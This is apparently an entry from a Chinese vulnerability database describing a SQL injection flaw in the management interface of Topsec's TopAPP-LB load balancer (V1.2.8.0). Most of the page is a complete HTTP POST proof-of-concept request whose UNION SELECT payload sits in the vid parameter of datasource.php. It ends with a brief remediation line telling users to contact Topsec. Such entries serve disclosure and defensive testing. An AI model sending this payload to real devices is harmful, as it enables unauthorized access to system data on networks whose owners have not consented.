 ```yaml
---
title: '
'
date: Sat, 12 Sep 2020 02:06:44 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 影响范围：

V1.2.8.0#xxx

#### 漏洞验证

天融信负载均衡 TopAPP-LB产品旧版本在管理面存在SQL注入漏洞，具体为在可以访问管理服务情况 下，攻击者通过构造恶意请求，利用系统检查输入条件不严格的缺陷，进一步可获取部分系统本地信息。

![img](天融信-TopApp-LB-负载均衡系统sql注入.assets/16273646815495071.jpg)

```HTML
POST /acc/clsf/report/datasource.php HTTP/1.1
Host: localhost
Connection: close
Accept: text/javascript, text/html, application/xml, text/xml, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded 

t=l&e=0&s=t&l=1&vid=1+union select 1,2,3,4,5,6,7,8,9,substr('a',1,1),11,12,13,14,15,16,17,18,19,20,21,22--+&gid=0&lmt=10&o=r_Speed&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=@。。

```

# 3、影响版本

V1.2.8.0#xxx ，该版本存在于 2014年之前销售的产品。

# 4、修复建议

如您正在使用 TopAPP-LB以上版本产品，请联系天融信当地技术团队或者官方服务热线。